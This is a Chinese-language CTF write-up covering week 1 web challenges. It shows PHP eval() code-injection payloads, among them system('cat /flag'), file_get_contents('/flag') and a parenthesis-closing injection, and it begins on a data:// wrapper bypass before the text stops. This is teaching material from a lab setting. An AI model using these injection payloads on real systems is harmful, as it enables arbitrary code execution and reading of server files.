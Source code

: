 部分week3和week4的题目看了wp也没看懂怎么回事 所以没能复现出来

复现过程中涉及到的知识点都附在了复现过程的后面

# week1
## 喵喵喵
![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1730730326969-a3466ef4-7a46-468d-a4b6-ab15c934a873.png)

本题利用php代码中的eval()函数漏洞 通过get方式传入php代码来获取flag

构建payload：

```plain
http://gz.imxbt.cn:20342/?DT=echo file_get_contents('/flag');
```

除此之外还可以利用system函数可以执行shell命令来寻找flag

payload如下：

```plain
http://gz.imxbt.cn:20342/?DT=system('cat /flag');
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1730772939983-3879f4b7-45d3-4938-a033-a6f6f8e800e7.png)

注意：php中eval函数漏洞只能执行php代码，而使用shell命令需要借助system函数，并且传入的php代码必须以分号结尾。

扩展：若传入的参数在eval函数内的所要执行的函数，我们可闭合括号并输入分号构建多条php语句来执行所需命令。

例如：假设将下列代码替换成题中的eval函数语句

```plain
 eval("var_dump($a);");
```

通过闭合括号和添加分号构建payload

```plain
?DT=);echo file_get_contents('/flag');var_dump(
```

通过闭合括号构建php语句以实现绕过eval函数内的函数执行php语句

## Aura 酱的礼物
![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731408028995-b9edb8bc-161d-4f09-a5a0-e54cb45f2097.png)

通过代码审计需要经过三次判断



首先对于第一个判断, 他需要读取一个文件后内容是'Aura'，我们可以尝试通过<font style="color:#601BDE;">data://</font> <font style="color:#000000;">伪协议来进行读取</font>

<font style="color:#000000;">第二个判断的话, 我们要求页面的开头为</font>[http://jasmineaura.github.io](http://jasmineaura.github.io)
